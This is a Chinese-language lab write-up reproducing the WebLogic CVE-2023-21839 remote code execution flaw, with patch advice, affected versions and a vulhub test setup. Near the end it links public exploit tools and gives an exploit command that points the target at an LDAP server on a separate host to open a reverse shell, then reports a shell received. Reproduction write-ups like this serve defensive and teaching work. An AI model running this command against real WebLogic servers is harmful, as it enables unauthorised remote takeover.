







# Weblogic-CVE-2023-21839 - 远程代码执行复现（排坑）

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：T3/IIOP reachability, outbound JNDI chain and runtime-specific class-loading support
- 证据范围：Independent setup note contrasts Java17 failure with Java8 success but does not say whether this is attacker tool runtime or target runtime, nor exact update version.

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Opening RCE label should preserve conditional chain versus advisory data-access impact
- Missing exact JDK update/build and installed PSU
- JNDI server invocation only screenshot; 3456 port mentioned without defining service role
- Closing T3/IIOP protocol access should not be simplified to closing shared application port
- Do not treat 14882 lab-directory reference as another primary vulnerability

### 操作风险与资料使用

- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/2f8sqqc15kwNJBn8nsXFhA)

### 漏洞阐述

WebLogic 是 Oracle 公司研发的用于开发、集成、部署和管理大型分布式 Web 应用、网络应用和数据库应用的 Java 应用服务器，在全球范围内被广泛使用。1 月 18 日，Oracle 发布安全公告，修复了一个存在于 WebLogic Core 中的远程代码执行漏洞（CVE-2023-21839），该漏洞的 CVSSv3 评分为 7.5，可在未经身份验证的情况下通过 T3、IIOP 协议远程访问并破坏易受攻击的 WebLogic Server，成功利用该漏洞可能导致未授权访问和敏感信息泄露。

### 解决建议

1、安装 Oracle WebLogic Server 最新安全补丁：

https://www.oracle.com/security-alerts/cpujan2023.html

2、关闭 T3 和 iiop 协议端口，操作方法参考：

https://help.aliyun.com/noticelist/articleid/1060577901.html

### 影响版本

Oracle WebLogic Server 12.2.1.3.0

Oracle WebLogic Server 12.2.1.4.0

Oracle WebLogic Server 14.1.1.0.0

### 环境搭建

这里推荐使用 docker ＋ vulhub 简单粗暴

```
https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2020-14882

```

  

这里使用 docker 在 vps 上搭建完成后，打开地址 http://xx.xx.xx:7001

image-20230301155808571

### 漏洞复现

先下载利用工具

```
https://github.com/WhiteHSBG/JNDIExploit


```

```
https://github.com/4ra1n/CVE-2023-21839


```

然后在 vps 上使用 JNDIExp 开启 ldap 协议服务，这里注意 1389 跟 3456 端口开放，然后 java 最好为低版本，我使用 17 版本未复现成功，8 版本成功复现

  

同时开启端口监听



在本机使用 CVE-2023-21839 工具发起 exp 攻击

  

```
main.exe -ip xx.xx.xx.xx -port 7001 -ldap ldap://xx.xx.xx.xx:1389/Basic/ReverseShell/xx.xx.xx.xx/10086


```

攻击成功

  

收到 shell

image-20230301161326659

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
